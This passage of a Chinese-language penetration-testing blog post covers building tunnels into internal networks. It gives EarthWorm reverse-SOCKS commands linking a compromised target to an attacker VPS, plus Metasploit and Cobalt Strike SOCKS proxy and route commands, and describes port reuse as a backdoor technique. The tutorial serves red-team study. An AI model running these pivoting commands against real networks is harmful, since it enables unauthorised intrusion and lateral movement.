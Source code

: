 **VPS**  
将1080端口监听的流量都转发到8889端口  
`./ew -s rcsocks -l 1090 -e 8889`  
**目标机器**  
将本地的所有流量都转发到目标机器的8889端口  
`./ew -s rssocks -d vpsip -e 8889`  
### Venom  
Venom是一款Go开发的多级代理工具。  
https://github.com/Dliv3/Venom  
### MSF搭建socks代理  
`auxiliary/server/socks_proxy`模块来搭建socks代理。  
#### 添加路由  
在使用代理之前，需要先添加路由  
这里的1是Session ID  
```  
#添加路由  
route add 内网IP 255.255.255.255 1  
#查看路由  
route print  
```  
### CS搭建socks代理  
`socks 1080`  
### 端口复用  
端口复用就是在一个开放的端口上，通过对输入的信息进行字符匹配，来运行不同的服务。端口复用只对输入的信息进行字符匹配，不对网络数据进行任何拦截、复制类操作，所以对网络数据的传输性能丝毫不受影响。端口复用常被黑客用来制作后门。  
  
  

---

> Author: N1Rvana  
> URL: https://nlrvana.github.io/%E5%86%85%E7%BD%91%E6%B8%97%E9%80%8F-%E9%9A%A7%E9%81%93%E6%90%AD%E5%BB%BA/  

